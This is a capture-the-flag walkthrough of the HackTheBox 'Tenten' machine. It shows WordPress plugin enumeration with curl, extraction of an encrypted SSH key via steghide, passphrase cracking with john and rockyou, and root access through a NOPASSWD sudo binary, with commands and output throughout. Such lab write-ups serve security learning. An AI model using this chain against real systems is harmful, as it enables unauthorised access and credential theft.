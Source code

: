 ```yaml
---
layout: post
title:  "HackTheBox - Tenten"
date:   2020-1-2 00:10:00 +0000
categories: htb
permalink: /:categories/tenten/
---
```


# Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Warning: OSScan results may be unreliable
```

# Webapp recon & pwn
Nmap scan leaks wordpress as a title. Wpscan returns a vulnerable plugin = 'job manager' and two users, 'takis' & 'zesk'.
Reading about the vulnerable plugin, it seems we can enumerate the site with the plugin.
We can fuzz this param with a basic bash oneliner.
```
or i in $(seq 1 15); do echo -n " $i "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep '<title>'; done
 1 <title>Job Application: Hello world! &#8211; Job Portal</title>
 2 <title>Job Application: Sample Page &#8211; Job Portal</title>
 3 <title>Job Application: Auto Draft &#8211; Job Portal</title>
 4 <title>Job Application &#8211; Job Portal</title>
 5 <title>Job Application: Jobs Listing &#8211; Job Portal</title>
 6 <title>Job Application: Job Application &#8211; Job Portal</title>
 7 <title>Job Application: Register &#8211; Job Portal</title>
 8 <title>Job Application: Pen Tester &#8211; Job Portal</title>
 9 <title>Job Application:  &#8211; Job Portal</title>
 10 <title>Job Application: Application &#8211; Job Portal</title>
 11 <title>Job Application: cube &#8211; Job Portal</title>
 12 <title>Job Application: Application &#8211; Job Portal</title>
 13 <title>Job Application: HackerAccessGranted &#8211; Job Portal</title>
 14 <title>Job Application: Application &#8211; Job Portal</title>
 15 <title>Job Application: temp_logo_testing &#8211; Job Portal</title>
```
'hackeraccessgranted' looks interesting, as if someones already pwned the app. Visiting the page shows an image.
We can get the image with wget and start poking steganography techniques at it. Steghide yields something
```
steghide extract -sf HackerAccessGranted.jpg 
Enter passphrase: <blank> 
wrote extracted data to "id_rsa".
```
File we retrieve is a private rsa key which has been encrypted. ssh2john can help us out.
```
ssh2john id_rsa > id.encrypted
root@kali:~/htb/tenten# john id.encrypted --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
superpassword    (id_rsa)
1g 0:00:00:00 DONE (2018-12-12 22:32) 1.123g/s 876444p/s 876444c/s 876444C/s superpassword
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Chmod 600 the file and login with takis user we found before.

# Gaining root.
Again a sudo check reveals all.
```
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```
It seems our current user can run the binary 'fuckin' without a password. Looking at the binary, we can see its simply calling bash with root permissions so we can abuse this to read the root file.
```
takis@tenten:/bin$ sudo fuckin id
uid=0(root) gid=0(root) groups=0(root)

takis@tenten:/bin$ sudo fuckin cat /root/root.txt
<redacted>
```

done and dusted.
